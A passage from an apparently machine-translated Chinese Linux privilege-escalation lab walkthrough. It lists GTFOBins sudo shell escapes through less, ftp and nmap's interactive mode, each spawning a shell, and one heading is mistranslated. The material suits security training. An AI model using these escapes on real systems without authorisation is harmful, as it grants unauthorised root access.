 ****少了**([https://gtfobins.github.io/gtfobins/less/](https://gtfobins.github.io/gtfobins/less/))**

```
sudo less /etc/profile
!/bin/sh
```

**![](img/262b6c31c2cf95fc657e14734d5fb8db.png)**

****FTP**([https://gtfobins.github.io/gtfobins/ftp/](https://gtfobins.github.io/gtfobins/ftp/))**

```
sudo ftp
!/bin/sh
```

**![](img/eb0657d69dd51655a85edbaa813448a7.png)**

****nmap**([https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/))**

**安装了 Nmap 5.00，它具有交互模式:**

```
sudo nmap --interactive
nmap> !sh
```

**![](img/3d7fb7e1d3b4ef5fe5be11f1fd7f7ea5.png)**

# **任务 7: Sudo 环境变量**
